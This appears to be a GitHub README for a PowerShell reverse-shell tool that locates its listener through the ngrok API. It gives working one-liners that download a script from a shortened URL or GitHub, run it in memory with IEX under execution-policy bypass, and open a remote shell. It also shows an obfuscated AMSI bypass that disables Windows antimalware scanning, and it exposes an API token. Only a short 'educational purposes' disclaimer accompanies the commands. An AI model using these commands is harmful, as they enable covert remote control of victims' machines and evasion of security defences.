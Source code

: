 ## Video:
[![ScreenShot](https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/2022-06-01-18%3A57%3A38.png)](https://youtu.be/2w3Y46Z4BwE "Powershell Auto Ngrok RevShell")

## Description
```
Auto detect remote server using ngrok api
```

## Requirements:
```
Ngrok
Netcat
```

## Example (Module):
```powershell
C:\PS> Import-Module .\Invoke-RevShell
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ
```

## Example (Default):

```powershell
C:\PS> powershell -ep Bypass -c "[Net.ServicePointManager]::SecurityProtocol=Net.SecurityProtocolType]::Tls12;
                                  IEX(New-Object Net.WebClient).downloadString('https://bit.ly/3N8EZjb'); 
                                  Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;"
```

## Example (Amsi Bypass):

```powershell
C:\PS> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true);
C:\PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;
C:\PS> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;
```



## Disclaimer:

```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
